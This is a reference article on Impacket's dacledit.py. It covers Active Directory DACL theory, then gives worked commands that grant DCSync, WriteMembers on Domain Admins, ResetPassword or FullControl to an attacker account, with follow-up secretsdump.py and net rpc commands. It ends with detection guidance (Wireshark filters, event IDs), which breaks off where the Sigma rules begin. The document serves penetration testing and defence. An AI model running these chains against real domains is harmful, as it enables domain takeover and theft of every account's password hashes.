


title: "dacledit.py"
script: "examples/dacledit.py"
category: "AD Modification"
status: "Published"
protocols:
  - LDAP
  - LDAPS
ms_specs:
  - MS-ADTS
  - MS-DTYP
  - MS-ADSC
  - MS-ADA3
mitre_techniques:
  - T1222
  - T1098
  - T1484.001
  - T1003.006
  - T1078
  - T1550.002
auth_types:
  - password
  - nt_hash
  - aes_key
  - kerberos_ccache
tags:
  - impacket
  - impacket/examples
  - category/ad_modification
  - status/published
  - protocol/ldap
  - protocol/ldaps
  - authentication/ntlm
  - authentication/kerberos
  - technique/dacl_modification
  - technique/acl_abuse
  - technique/dcsync_rights
  - technique/force_change_password
  - technique/write_members
  - technique/writedacl_abuse
  - technique/extended_rights
  - mitre/T1222
  - mitre/T1098
  - mitre/T1484/001
  - mitre/T1003/006
  - mitre/T1078
  - mitre/T1550/002
aliases:
  - dacledit
  - impacket-dacledit
  - dacl_edit
  - dacl_editor


# dacledit.py

> **One line summary:** Reads and writes the `ntSecurityDescriptor` attribute of Active Directory objects to manipulate their Discretionary Access Control Lists, enabling an attacker who already holds `WriteDacl` or equivalent rights on a target object to grant arbitrary rights (including DCSync, ResetPassword, WriteMembers, or FullControl) to an attacker controlled principal, thereby turning a single misconfigured ACE into a full path to Domain Admin or directly to every credential in the domain via DCSync.

| Field | Value |
|:---|:---|
| Script | `examples/dacledit.py` |
| Category | AD Modification |
| Status | Published |
| Primary protocols | LDAP, LDAPS |
| Primary Microsoft specifications | `[MS-ADTS]`, `[MS-DTYP]`, `[MS-ADSC]`, `[MS-ADA3]` |
| MITRE ATT&CK techniques | T1222 File and Directory Permissions Modification, T1098 Account Manipulation, T1484.001 Group Policy Modification, T1003.006 OS Credential Dumping: DCSync (when granting DCSync rights), T1078 Valid Accounts, T1550.002 Pass the Hash |
| Authentication types supported | Password, NT hash, AES key, Kerberos ccache |
| First appearance in Impacket | Impacket 0.12.0 (pull request #1291) |
| Original authors | Charlie Bromberg (`@ShutdownRepo`), `@BlWasp_`, `@Wlayzz` |


## Prerequisites

This article builds on:

- [`00_Introduction_and_Architecture.md`](Introduction_and_Architecture.md) for the Impacket stack overview.
- [`samrdump.py`](../01_recon_and_enumeration/samrdump.md) for SIDs and the general account object model.
- [`lookupsid.py`](../01_recon_and_enumeration/lookupsid.md) for SID resolution, which this tool also performs internally.
- [`rbcd.py`](rbcd.md) for the pattern of modifying security descriptor attributes via LDAP. `rbcd.py` manipulates `msDS-AllowedToActOnBehalfOfOtherIdentity` which is a specialized form of the same class of attribute that `dacledit.py` manipulates.
- [`addcomputer.py`](addcomputer.md) for the upstream enabler pattern that `dacledit.py` also fits into.
- [`secretsdump.py`](../03_credential_access/secretsdump.md) for the DCSync downstream that is one of the most impactful follow ups to a `dacledit.py` DCSync rights grant.


## What it does

`dacledit.py` is a Python client for reading and modifying the Discretionary Access Control List on any Active Directory object over LDAP. Operators use it to grant or remove specific Active Directory rights on specific principals over specific target objects, as a building block in attack chains that exploit AD permission misconfigurations.

The tool supports five actions:

| Action | Purpose |
|:---|:---|
| `read` | Parse and display the target object's DACL in human readable form. |
| `write` | Add an Access Allowed or Access Denied ACE to the target's DACL. |
| `remove` | Remove an existing ACE from the target's DACL. |
| `backup` | Save the target's full DACL to a file for later restoration. |
| `restore` | Restore a previously backed up DACL. Critical for attack cleanup. |

The actions map directly to typical attack workflow: `read` identifies current permissions, `backup` saves a known good state, `write` performs the malicious modification, `restore` cleans up. The `remove` action is used less frequently but is important for removing evidence of prior attacks or for denying access to specific accounts.

The tool exposes named shortcuts for the most common rights, allowing operators to grant these without remembering extended right GUIDs:

| Right shortcut | What it grants |
|:---|:---|
| `FullControl` | All permissions (equivalent to GenericAll). |
| `ResetPassword` | User-Force-Change-Password extended right. |
| `WriteMembers` | Write access to the `member` attribute (for group membership manipulation). |
| `DCSync` | Both DS-Replication-Get-Changes and DS-Replication-Get-Changes-All extended rights. |
| `Custom` | Custom rights specified via `-rights-guid` and/or `-mask`. |

For any right not covered by a shortcut, `-rights-guid <GUID>` accepts the raw extended right GUID directly. Combined with `-mask`, this provides complete flexibility for any DACL modification the LDAP service will permit.

The tool is the Python equivalent of `Add-DomainObjectAcl` / `Get-DomainObjectAcl` from PowerSploit's PowerView, making the same attack surface accessible from Linux attack hosts. It is also the Impacket equivalent of similar capabilities in `bloodyAD` (another common offensive AD toolkit), and specifically complements companion tool [`owneredit.py`](owneredit.md) which handles object ownership rather than DACLs.


## Why it exists

Active Directory's security model is built on fine grained object permissions. Every AD object has an `ntSecurityDescriptor` attribute that contains a Security Descriptor defining who can do what to that object. Permissions can be inherited from parent containers. Specific properties on an object can have their own permissions. Extended rights provide a separate permission namespace for operations that do not correspond to simple read or write on a property (DCSync, password reset, user control).

The result: AD permissions are powerful, flexible, and very hard to audit. Enterprise environments accumulate permission misconfigurations over years as administrators delegate specific rights to specific groups for specific purposes. Each individual grant seems reasonable at the time but the aggregate creates attack paths.

BloodHound made visibility into AD ACL attack paths accessible in 2016. Suddenly defenders could see that the Helpdesk group had ForceChangePassword on 200 user accounts, one of which had WriteDacl on a Tier 0 asset, which had GenericAll on the Domain Admins group. BloodHound showed the attack paths but did not execute them. Tools like `Set-DomainObjectAcl` in PowerView executed them on Windows.

The gap `dacledit.py` filled: an equivalent capability for Linux attack hosts. Prior to Impacket 0.12.0, operators who needed to modify ACLs from Linux had to use `ldapmodify` with manually crafted security descriptor blobs, `Invoke-ACLPwn`, `aclpwn.py`, or the specialized `bloodyAD`. None of these were in Impacket; none offered the full range of rights and flexibility as nicely integrated with other Impacket tooling.

Charlie Bromberg (Shutdown) and contributors submitted pull request #1291 in early 2023. The implementation was accepted into Impacket 0.12.0 in late 2023 and has become the canonical tool for DACL manipulation from Linux since then.


## The protocol theory

This section is long because AD security descriptors are dense. The terminology and mechanics need to be understood before the tool's flags make sense.

### Windows security descriptors

A Security Descriptor is a data structure that describes who owns a securable object and who can do what to it. Every kernel object on Windows has one. In Active Directory, every directory object has one stored in the `nTSecurityDescriptor` attribute.

The structure, per `[MS-DTYP]` section 2.4.6:

| Field | Purpose |
|:---|:---|
| Owner SID | The SID of the object's owner. The owner has implicit WriteDacl rights regardless of the DACL. |
| Group SID | The primary group SID. Rarely used in modern AD. |
| SACL | System Access Control List. Defines what accesses get audited. Not relevant for attacks. |
| DACL | Discretionary Access Control List. Defines who has what access. This is what `dacledit.py` manipulates. |
| Control flags | Various flags controlling inheritance and other properties. |

The owner field is handled by [`owneredit.py`](owneredit.md). The DACL is handled by `dacledit.py`. The SACL is not typically modified by attackers (modifying it would create auditing that attackers do not want, not remove auditing).

### The DACL structure

A DACL is an ordered list of Access Control Entries (ACEs). Each ACE grants or denies specific access to a specific principal (identified by SID). The DACL has a header with a count and some flags, followed by the ACE array.

The order of ACEs matters. Access Denied ACEs come first; they are evaluated before Access Allowed ACEs. This is a Windows security principle: deny takes precedence over allow.

When a thread attempts to access an object, Windows walks the DACL in order:

1. For each ACE whose SID matches the thread's token (directly or via group membership), check if the access mask of the ACE includes the requested access.
2. If an Access Denied ACE matches, deny access immediately.
3. If an Access Allowed ACE matches, grant that portion of the requested access.
4. Continue until all requested access is granted or the DACL is exhausted.
5. If any requested access was not granted by any ACE, deny the remaining access.

An attacker modifying a DACL adds ACEs that grant the desired access to the desired SID.

### ACE types

Different ACE types exist for different purposes. The two that matter for AD:

- **`ACCESS_ALLOWED_ACE`** (type `0x00`). Simple "allow SID X access Y on this object."
- **`ACCESS_ALLOWED_OBJECT_ACE`** (type `0x05`). "Allow SID X access Y on specific property/extended right Z." The extended object identifier distinguishes this from the simple form.

The object form is what AD uses almost exclusively because AD has property level and extended rights granularity. A simple ACE would grant access to the whole object; an object ACE can grant access to only the `member` attribute or only the User-Force-Change-Password extended right.

Object ACEs include additional fields beyond the simple ACE:

| Field | Purpose |
|:---|:---|
| ObjectType (GUID) | The property schema GUID or extended right GUID this ACE applies to. |
| InheritedObjectType (GUID) | For container objects, the class of child object this ACE should be inherited to. |

Deny variants (`ACCESS_DENIED_ACE` and `ACCESS_DENIED_OBJECT_ACE`) exist but are rarely used offensively; attackers typically want to grant themselves rights, not deny them to others.

### Access masks

The access mask is a 32 bit bitfield specifying what operations the ACE allows. The relevant bits for AD:

| Mask bit | Value | Purpose |
|:---|:---||
| `DS_READ_PROP` | `0x00000010` | Read a property. |
| `DS_WRITE_PROP` | `0x00000020` | Write a property. |
| `DS_CREATE_CHILD` | `0x00000001` | Create a child object. |
| `DS_DELETE_CHILD` | `0x00000002` | Delete a child object. |
| `DS_SELF` | `0x00000008` | Self write (special cases). |
| `DS_LIST_CONTENTS` | `0x00000004` | List child objects. |
| `DS_CONTROL_ACCESS` | `0x00000100` | Perform an extended right operation. |
| `WRITE_DACL` | `0x00040000` | Modify the DACL. |
| `WRITE_OWNER` | `0x00080000` | Modify the owner. |
| `DS_GENERIC_ALL` | `0x000F01FF` | All rights. |

Extended rights use `DS_CONTROL_ACCESS`. Property reads use `DS_READ_PROP`. Property writes use `DS_WRITE_PROP`. Group membership changes are a property write on the `member` attribute.

The `dacledit.py` source code contains this critical comment:

```text
# Other rights in this script are extended rights and need the DS_CONTROL_ACCESS mask
```

Understanding which access mask to pair with which ObjectType GUID is the main barrier to using the tool correctly. The `-rights` shortcuts handle this automatically; `-rights-guid Custom` requires the operator to get it right manually.

### Extended rights and their GUIDs

Extended rights are Active Directory's way of expressing permissions for operations that do not correspond to property reads or writes. Each extended right has a well known GUID defined in the schema. The most important ones:

| Extended right | GUID | Purpose |
|:---|:---||
| DS-Replication-Get-Changes | `1131f6aa-9c07-11d1-f79f-00c04fc2dcd2` | Request replication of non-secret changes. Part of DCSync. |
| DS-Replication-Get-Changes-All | `1131f6ad-9c07-11d1-f79f-00c04fc2dcd2` | Request replication of secret data (password hashes). Completes DCSync. |
| User-Force-Change-Password | `00299570-246d-11d0-a768-00aa006e0529` | Reset a user's password without knowing the old one. |
| Self-Membership | `bf9679c0-0de6-11d0-a285-00aa003049e2` | Actually this is the `member` property schema GUID used for WriteMembers. |

Property schema GUIDs (like `member`) are distinct from extended right GUIDs but are used in the same ObjectType field of an ACE. The mask indicates whether it is a property operation (`DS_WRITE_PROP`) or an extended right (`DS_CONTROL_ACCESS`).

### The ntSecurityDescriptor LDAP attribute

`ntSecurityDescriptor` is an AD attribute that contains the serialized security descriptor as a byte array. The attribute is readable by default (though not all fields are visible; SACL requires SeSecurityPrivilege to read) and writable by principals with `WriteDacl` on the object.

Reading the attribute: a standard LDAP search on the target DN requesting `ntSecurityDescriptor`. To get all the fields including the SACL, LDAP controls like the SD Flags control (OID `1.2.840.113556.1.4.801`) can be specified to request specific portions.

Writing the attribute: an LDAP modify operation replacing `ntSecurityDescriptor` with the new byte array. The operation requires `WriteDacl` on the target object (or owner of the target, or be the target's owner, or have equivalent rights).

`dacledit.py` performs these LDAP operations. It reads the `ntSecurityDescriptor`, parses the security descriptor structure, locates (for read/remove) or constructs (for write) the relevant ACEs, and writes the modified `ntSecurityDescriptor` back.

### Access control abuse attack patterns

A few canonical patterns that `dacledit.py` enables:

**1. DCSync escalation.** Target the domain root object. Grant DS-Replication-Get-Changes and DS-Replication-Get-Changes-All to a controlled principal. Run [`secretsdump.py`](../03_credential_access/secretsdump.md) DCSync mode as that principal to dump all domain credentials including `krbtgt`. This is the complete path from "WriteDacl on domain root" to "full domain compromise" in two tool invocations.

**2. Domain Admins membership.** Target the Domain Admins group. Grant WriteMembers to a controlled principal. Add the principal to the Domain Admins group via any tool that does LDAP or RPC group modification. The principal is now Domain Admin.

**3. Password reset cascade.** Target a high value user (CISO, CTO, privileged admin). Grant User-Force-Change-Password to a controlled principal. Reset the user's password. Use the new password to pivot.

**4. Computer account takeover.** Target a computer object. Grant WriteDacl on the computer or grant the required rights for Shadow Credentials (see [`ntlmrelayx.py`](../06_relay_attacks/ntlmrelayx.md)'s `--shadow-credentials`). Combined with [`getST.py`](../02_kerberos_attacks/getST.md), this leads to code execution as SYSTEM on the target computer.

**5. GPO modification.** Target a GPO object. Grant WriteDacl. Modify the GPO to include a malicious Group Policy Preference, scheduled task, or similar. When clients apply the GPO, the attacker's payload runs on every affected machine.

Each pattern represents a different upstream condition (what rights the attacker already has) and a different downstream outcome (what the new ACE enables). `dacledit.py` is the universal modify operation that connects any upstream write capability to any downstream right grant.

### Inheritance and adminSDHolder

AD has a protection mechanism called `adminSDHolder` that periodically (default every 60 minutes) resets the DACL of privileged objects (Domain Admins, Enterprise Admins, etc.) to a known good template. Accounts marked with `adminCount=1` are subject to this protection.

Practical impact: ACE grants against privileged objects are not persistent. The SDProp job will remove them within an hour. Attackers typically use the access window to pivot to actual compromise (DCSync, reset a real privileged account's password, extract credentials) before SDProp cleans up.

The `-inheritance` flag in `dacledit.py` addresses a related but distinct case: granting an ACE on a container or OU that should be inherited by child objects. This requires setting `CONTAINER_INHERIT_ACE` and `OBJECT_INHERIT_ACE` flags in the ACE. Inherited ACEs on container/OU scopes can cascade rights grants across many objects.

Note from the source code documentation: objects with `adminCount=1` do not inherit ACEs (they have `inheritance disabled` effectively through adminSDHolder). The inheritance feature is therefore useful against unprivileged OU contents but not against privileged accounts.


## How the tool works internally

The script is reasonably sized but does a lot in a focused way.

1. **Argument parsing.** Identity string (standard Impacket target format), connection flags (`-use-ldaps`, `-dc-ip`, `-dc-host`), authentication flags (standard), and the DACL editor flags (action, principal, target, rights, inheritance).

2. **LDAP session establishment.** Calls `init_ldap_session` to connect to the DC over LDAP (port 389) or LDAPS (port 636). Authenticates with the supplied credentials.

3. **Principal resolution.** If `-principal`, `-principal-sid`, or `-principal-dn` was specified, the tool resolves the principal to a SID by LDAP search:
    - sAMAccountName: LDAP search `(sAMAccountName=<name>)` requesting `objectSid`.
    - DN: LDAP search with base DN being the principal DN requesting `objectSid`.
    - SID: used directly.

4. **Target resolution.** Same pattern with `-target`, `-target-sid`, `-target-dn`. Resolves to the target object's DN.

5. **Target security descriptor retrieval.** LDAP search on the target DN requesting `ntSecurityDescriptor`. Parses the byte array using `impacket.ldap.ldaptypes.SR_SECURITY_DESCRIPTOR`.

6. **Action dispatch.**
    - **`read`:** Iterates through all ACEs in the DACL, parses each into a human readable form showing the ACE type, flags, access mask, ObjectType GUID resolved to a friendly name (where known), and Trustee SID resolved to a principal name. Prints the result.
    - **`write`:** Constructs a new ACE with the specified principal SID, rights mask, ObjectType GUID, and flags. Appends the ACE to the DACL. Writes the modified `ntSecurityDescriptor` back via LDAP modify.
    - **`remove`:** Iterates through the DACL looking for ACEs matching the specified principal and rights. Removes matching ACEs. Writes the modified DACL back.
    - **`backup`:** Writes the raw `ntSecurityDescriptor` bytes to a file with a default name like `dacledit-YYYYMMDD-HHMMSS.bak`.
    - **`restore`:** Reads the file specified with `-file` and writes its contents back as the `ntSecurityDescriptor` via LDAP modify.

7. **ACE construction for write action.** The tool handles the combination of rights and masks:
    - `FullControl`: sets mask to `DS_GENERIC_ALL`.
    - `ResetPassword`: sets ObjectType to User-Force-Change-Password GUID, mask to `DS_CONTROL_ACCESS`.
    - `WriteMembers`: sets ObjectType to member property GUID, mask to `DS_WRITE_PROP | DS_READ_PROP`.
    - `DCSync`: adds two ACEs, one for DS-Replication-Get-Changes and one for DS-Replication-Get-Changes-All, both with `DS_CONTROL_ACCESS`.
    - `Custom`: uses the specified `-rights-guid` and `-mask`.

8. **Inheritance flag handling.** If `-inheritance` is set, the ACE flags include `OBJECT_INHERIT_ACE (0x01)` and `CONTAINER_INHERIT_ACE (0x02)`.

9. **Output formatting.** Read action output groups by ACE and shows resolved names where possible. Unresolved GUIDs are shown as UNKNOWN with the raw GUID.

10. **Error handling.** The tool reports specific LDAP errors: insufficient rights (the attacker does not have WriteDacl), non existent target, constraint violations.


## Authentication options

Standard four mode pattern from [`smbclient.py`](../05_smb_tools/smbclient.md), with one variation: this tool uses LDAP for the entire conversation rather than SMB.

### Cleartext password

```bash
dacledit.py CORP.LOCAL/user:'P@ss' -dc-ip 10.0.0.10 \
  -action read -target 'targetuser'
```

### NT hash (pass the hash)

```bash
dacledit.py CORP.LOCAL/user -hashes :<nthash> -dc-ip 10.0.0.10 \
  -action read -target 'targetuser'
```

### AES key (pass the key)

```bash
dacledit.py CORP.LOCAL/user -aesKey <hex> -dc-ip 10.0.0.10 -k \
  -action read -target 'targetuser'
```

### Kerberos ccache

```bash
export KRB5CCNAME=user.ccache
dacledit.py CORP.LOCAL/user -k -no-pass -dc-ip 10.0.0.10 \
  -action read -target 'targetuser'
```

### LDAPS for encrypted transport

```bash
dacledit.py CORP.LOCAL/user:'P@ss' -dc-ip 10.0.0.10 -use-ldaps \
  -action write -principal user -target 'targetuser' -rights ResetPassword
```

LDAPS is recommended when performing writes because:

- LDAP signing is frequently enforced for modify operations on DCs. Without LDAPS or signing, modifies may fail with `strongerAuthRequired`.
- The write operations that `dacledit.py` performs contain sensitive data that should not traverse the network in cleartext.

Modern AD deployments (Windows Server 2022 23H2 and later) enable LDAP signing and LDAPS channel binding by default, making LDAPS effectively required.

### Minimum required privileges

The authenticated user must have:

- LDAP bind permissions to the DC (any authenticated domain user has this).
- **`WriteDacl` on the target object** for write, remove, backup/restore with modification. Read operations need only `Read` permission on the DACL, which is almost always available.

Indirect ways to get `WriteDacl`:

- Be the target's owner.
- Have `WriteOwner` on the target plus follow up to take ownership ([`owneredit.py`](owneredit.md)).
- Be in a group that has `WriteDacl` on the target.
- Have `WriteDacl` inherited from a parent OU.

BloodHound identifies all of these paths. `dacledit.py` executes the grant once the path is identified.


## Practical usage

### Read the DACL of a target

```bash
dacledit.py CORP.LOCAL/user:'P@ss' -dc-ip 10.0.0.10 \
  -action read -target 'Domain Admins'
```

Prints every ACE on the `Domain Admins` group object. Output shows the ACE type, flags, access mask, ObjectType GUID (resolved to a friendly name where known), and the Trustee. Useful for:

- Identifying the full permission picture before making modifications.
- Discovering pre existing attack paths (unusual ACEs on sensitive objects).
- Audit confirmation of permission state.

### Backup a DACL before modification

```bash
dacledit.py CORP.LOCAL/user:'P@ss' -dc-ip 10.0.0.10 \
  -action backup -target 'Domain Admins' \
  -file domain_admins_before.bak
```

Writes the current DACL to a file. Essential operational hygiene for any engagement. Loss of the original DACL state can create persistent problems if the modification is incorrect.

### Grant DCSync rights to a controlled principal

```bash
dacledit.py CORP.LOCAL/user:'P@ss' -dc-ip 10.0.0.10 -use-ldaps \
  -action write -principal attacker_user \
  -target-dn 'DC=corp,DC=local' \
  -rights DCSync
```

The canonical attack. Grants both DS-Replication-Get-Changes and DS-Replication-Get-Changes-All to `attacker_user` on the domain root. Follow up:

```bash
secretsdump.py -just-dc CORP.LOCAL/attacker_user:'P@ss'@10.0.0.10
```

Now `attacker_user` has the krbtgt hash and every user's password hashes. Documented in detail in [`secretsdump.py`](../03_credential_access/secretsdump.md).

### Grant WriteMembers on Domain Admins

```bash
dacledit.py CORP.LOCAL/user:'P@ss' -dc-ip 10.0.0.10 -use-ldaps \
  -action write -principal attacker_user \
  -target 'Domain Admins' \
  -rights WriteMembers
```

After this, `attacker_user` can add themselves (or anyone) to Domain Admins via any tool that performs LDAP group modification or the `net rpc group addmem` command:

```bash
net rpc group addmem "Domain Admins" "attacker_user" \
  -U 'CORP.LOCAL/attacker_user%P@ss' -S 10.0.0.10
```

The principal is now Domain Admin. Note that adminSDHolder will eventually restore the Domain Admins DACL, but membership changes persist (SDProp restores the DACL, not the member list).

### Grant ResetPassword on a target user

```bash
dacledit.py CORP.LOCAL/user:'P@ss' -dc-ip 10.0.0.10 -use-ldaps \
  -action write -principal attacker_user \
  -target target_admin \
  -rights ResetPassword
```

Follow up:

```bash
# Use a password reset tool like net rpc, pwned, or direct SAMR:
net rpc password "target_admin" "NewPass123!" \
  -U 'CORP.LOCAL/attacker_user%P@ss' -S 10.0.0.10
```

`target_admin` now has the attacker's chosen password. Useful for accounts where ResetPassword is viable but the account itself does not yet have the rights the attacker needs. The attacker then authenticates as `target_admin` with the new password and uses its native privileges.

### Grant FullControl over an arbitrary object

```bash
dacledit.py CORP.LOCAL/user:'P@ss' -dc-ip 10.0.0.10 -use-ldaps \
  -action write -principal attacker_user \
  -target-dn 'CN=TargetComputer,OU=Servers,DC=corp,DC=local' \
  -rights FullControl
```

GenericAll over a computer object enables multiple follow ups:

- Write `msDS-AllowedToActOnBehalfOfOtherIdentity` for RBCD (see [`rbcd.py`](rbcd.md)).
- Write `msDS-KeyCredentialLink` for Shadow Credentials (see [`ntlmrelayx.py`](../06_relay_attacks/ntlmrelayx.md)).
- Reset the computer account password (via SAMR).
- LAPS password reading (if LAPS is configured).

### Use a custom extended right GUID

```bash
dacledit.py CORP.LOCAL/user:'P@ss' -dc-ip 10.0.0.10 -use-ldaps \
  -action write -principal attacker_user \
  -target target_user \
  -rights-guid 00299570-246d-11d0-a768-00aa006e0529
```

This GUID is User-Force-Change-Password. The same as `-rights ResetPassword` but specified manually. Useful for less common extended rights that do not have named shortcuts.

### Use a raw access mask

```bash
dacledit.py CORP.LOCAL/user:'P@ss' -dc-ip 10.0.0.10 -use-ldaps \
  -action write -principal attacker_user \
  -target target_user \
  -rights Custom -mask 0x20 \
  -rights-guid bf9679c0-0de6-11d0-a285-00aa003049e2
```

Combines `-rights Custom` with `-mask` (here `0x20` is `DS_WRITE_PROP`) and `-rights-guid` (here the member property GUID, same as WriteMembers). Maximum flexibility for unusual ACE constructions.

### Write an ACE on an OU with inheritance

```bash
dacledit.py CORP.LOCAL/user:'P@ss' -dc-ip 10.0.0.10 -use-ldaps \
  -action write -principal attacker_user \
  -target-dn 'OU=Workstations,DC=corp,DC=local' \
  -rights FullControl -inheritance
```

Grants FullControl on the OU and all child objects (except those with `adminCount=1`). Useful for cascading rights across many targets from a single modification.

### Remove an ACE

```bash
dacledit.py CORP.LOCAL/user:'P@ss' -dc-ip 10.0.0.10 -use-ldaps \
  -action remove -principal attacker_user \
  -target 'Domain Admins' -rights WriteMembers
```

Removes the matching ACE from the target's DACL. Used for cleanup after the attack succeeds or for denying access to a specific principal.

### Restore a backup

```bash
dacledit.py CORP.LOCAL/user:'P@ss' -dc-ip 10.0.0.10 -use-ldaps \
  -action restore -file domain_admins_before.bak \
  -target 'Domain Admins'
```

Restores the DACL to the state captured in the backup file. **Always perform this after completing a pentest engagement** to avoid leaving behind attack enabling ACLs. Many engagements fail cleanup because operators grant rights, pivot, and forget to restore.

### Key flags

| Flag | Meaning |
|:---|:---|
| `identity` (positional) | Domain/username[:password]. Standard Impacket target format. |
| `-principal <n>` | Principal sAMAccountName (the account being granted the right). |
| `-principal-sid <SID>` | Principal Security Identifier. |
| `-principal-dn <DN>` | Principal Distinguished Name. |
| `-target <n>` | Target object sAMAccountName. |
| `-target-sid <SID>` | Target Security Identifier. |
| `-target-dn <DN>` | Target Distinguished Name. |
| `-action <op>` | `read` (default), `write`, `remove`, `backup`, `restore`. |
| `-file <path>` | File for backup/restore. |
| `-ace-type <type>` | `allowed` (default) or `denied`. |
| `-rights <right>` | `FullControl`, `ResetPassword`, `WriteMembers`, `DCSync`, `Custom`. |
| `-rights-guid <GUID>` | Manual GUID for the right. |
| `-mask <mask>` | Force access mask. Values: `readwrite`, `write`, `self`, `allext`, or raw `0xXXXXX`. |
| `-inheritance` | Enable CONTAINER_INHERIT_ACE and OBJECT_INHERIT_ACE flags. |
| `-use-ldaps` | Use LDAPS (port 636) instead of LDAP (port 389). |
| `-dc-ip <ip>` | DC IP address. |
| `-dc-host <name>` | DC hostname (useful when DNS is inconsistent). |


## What it looks like on the wire

LDAP conversation. Nothing more exotic. But the specific operation is distinctive.

### Session setup

- TCP connection to port 389 (LDAP) or port 636 (LDAPS).
- For LDAPS: TLS handshake with the DC's certificate.
- LDAP bind with NTLM (via GSSAPI wrapping), Kerberos, or plaintext (rarely).

### Target resolution

- LDAP search with filter `(sAMAccountName=<target>)` or with explicit base DN.
- Attribute list includes `objectSid` and `distinguishedName`.

### Security descriptor read

- LDAP search on the target DN with attribute list `['nTSecurityDescriptor']`.
- LDAP SD Flags control (`1.2.840.113556.1.4.801`) may be specified to request specific portions.
- Response contains the `nTSecurityDescriptor` as a base64 encoded byte array.

### Security descriptor write (for write/remove/restore actions)

- LDAP modify operation on the target DN.
- Operation type: REPLACE (modify operation attribute `nTSecurityDescriptor`).
- Value: the new serialized security descriptor bytes.

### Wireshark filters

```text
ldap                                       # all LDAP
ldap.bindRequest                           # authentication
ldap.searchRequest                         # queries
ldap.modifyRequest                         # modifications (the key signal)
ldap.attributeType == "ntSecurityDescriptor"  # specifically targeting the attribute
tcp.port == 389                            # LDAP
tcp.port == 636                            # LDAPS (TLS encrypted)
```

For LDAPS, the traffic is encrypted. Detection at the network layer is limited to observing connection patterns (who talked to the DC when) rather than content inspection.


## What it looks like in logs

AD modification logging is mature and `dacledit.py` operations produce clear signals when auditing is enabled.

### Event ID 4662: An operation was performed on an object

The DC logs this event when any operation (read or write) is performed on an AD object. The event includes:

| Field | Value |
|:---|:---|
| AccessMask | The access bits requested (for read, typically `0x20` DS_READ_PROP; for write, `0x20020` DS_WRITE_PROP | DS_READ_PROP or `0x40000` WRITE_DACL). |
| Properties | The property GUIDs involved. For DACL writes, includes the nTSecurityDescriptor GUID. |
| SubjectUserName | The account that performed the operation. |
| ObjectName | The DN of the target object. |

4662 is high volume (many legitimate LDAP operations trigger it) but useful for forensics. Filtering for `WRITE_DACL` operations or for operations targeting `nTSecurityDescriptor` narrows the signal.

### Event ID 4670: Permissions on an object were changed

The specific event for DACL changes. Fires when `nTSecurityDescriptor` is modified. Includes:

| Field | Value |
|:---|:---|
| ObjectType | The class of object modified. |
| ObjectName | The DN of the object. |
| OldSd | The SDDL representation of the DACL before the change. |
| NewSd | The SDDL representation of the DACL after the change. |

**This is the highest fidelity event for `dacledit.py` write operations.** The before and after DACLs are both logged, which means investigators can see exactly what ACE was added. Not enabled by default; requires "Audit Directory Service Changes" to be enabled in the Advanced Audit Policy.

### Event ID 5136: A directory service object was modified

Generic AD object modification event. Fires for any LDAP modify operation. Includes:

| Field | Value |
|:---|:---|
| AttributeLDAPDisplayName | `nTSecurityDescriptor` (for `dacledit.py`). |
| AttributeValue | The new value (often very long). |
| OperationType | `Value Added` (modify-add) or `Value Deleted` (modify-delete). |

Less detailed than 4670 but often available where 4670 is not. A 5136 event with `AttributeLDAPDisplayName = nTSecurityDescriptor` is a strong signal.

### Follow on events from downstream attacks

The real impact of `dacledit.py` comes from what happens after. The detection opportunities extend through the attack chain:

- **DCSync follow up.** Event 4769 for Kerberos Service Ticket requests to the DRSUAPI SPN (`E3514235-4B06-11D1-AB04-00C04FC2DCD2`) from non DC sources. High fidelity DCSync signal.
- **Password reset follow up.** Event 4724 "An attempt was made to reset an account's password." Should be baselined against expected password reset actors.
- **Group membership change follow up.** Event 4728 (Security-enabled Global Group member added), 4732 (Security-enabled Local Group), 4756 (Security-enabled Universal Group). Especially important for membership changes on privileged groups.

### LDAP monitoring

Most enterprises do not log LDAP queries at the volume needed to detect `dacledit.py` read operations (which produce only search traffic, no modifications). Monitoring tools that capture LDAP events (Microsoft Defender for Identity, vendor solutions like Semperis or Quest) provide richer visibility.

A specific LDAP pattern to watch: large volume searches on `nTSecurityDescriptor` from non administrative accounts. Legitimate applications rarely read this attribute in bulk. Attackers doing reconnaissance before a `dacledit.py` write typically will.

### Starter Sigma rules

```yaml
